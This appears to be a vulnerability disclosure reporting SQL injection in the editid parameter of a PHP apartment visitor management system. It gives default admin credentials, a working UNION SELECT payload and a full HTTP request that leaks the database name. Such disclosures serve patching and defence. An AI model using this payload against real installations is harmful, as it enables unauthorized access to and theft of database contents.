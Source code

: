# Apartment Visitor Management System v1.0 by oretnom23 has SQL injection

BUG_Author: xxxcoll

Login account: admin/admin123 (Super Admin account)

vendors: https://www.sourcecodester.com/php-apartment-visitor-management-system-source-code

The program is built using the xmapp-php8.1 version

Vulnerability File: /avms/edit-apartment.php?editid=

Vulnerability location: /avms/edit-apartment.php?editid=, editid

dbname =avms_db

[+] Payload: /avms/edit-apartment.php?editid=-20%27%20union%20select%201,database(),3,4--+ // Leak place ---> editid

```sql
GET /avms/edit-apartment.php?editid=-20%27%20union%20select%201,database(),3,4--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=fjhrjdpuej6edqv5haoadpj3lc
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/183243076-479ae6fc-a53b-4a78-a898-f33586d5be4c.png)
